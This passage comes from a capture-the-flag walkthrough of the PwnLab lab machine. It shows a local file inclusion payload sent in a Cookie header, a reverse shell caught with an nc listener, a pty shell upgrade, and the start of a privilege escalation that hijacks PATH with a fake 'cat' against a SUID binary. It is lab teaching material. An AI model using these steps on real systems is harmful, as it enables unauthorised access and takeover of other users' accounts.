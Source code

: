 ``` 
Cookie: lang=../upload/ff280c52a4fbcbea847ca4a2d69ce6c0.gif
```

And in our listener, we have a hit!

``` 
nc -vnlp 8888
listening on [any] 8888 ...
connect to [192.168.217.132] from (UNKNOWN) [192.168.217.143] 36356
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
 11:08:31 up  2:34,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/sh');"
```

I've proceeded to switch through the 3 users for which I got the passwords earlier and see what can be done. Nothing interesting from kent, getting an authentication failure as mike, but in kane's home folder there's an interesting SUID binary called *msgmike* 

``` 
-rwsr-sr-x 1 mike mike 5.1K Mar 17  2016 msgmike
```

Trying to run it gives an error:

``` 
kane@pwnlab:~$ ./msgmike
./msgmike
cat: /home/mike/msg.txt: No such file or directory
```

Interesting, this calls cat, but not from an absolute path. So if we create a malicious binary called cat and add kane's home to the PATH variable, we should be able to run an arbitrary program with mike's privileges. 

``` 
kane@pwnlab:~$ echo "/bin/bash" > cat
echo "/bin/bash" > cat
kane@pwnlab:~$ chmod 777 cat
chmod 777 cat
```

Here we want to run bash as mike. Let's see how the PATH looks:

``` 
kane@pwnlab:~$ echo $PATH
echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Now let's add the current location to the PATH:

``` 
export PATH=.:$PATH
kane@pwnlab:~$ echo $PATH
echo $PATH
.:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:
```
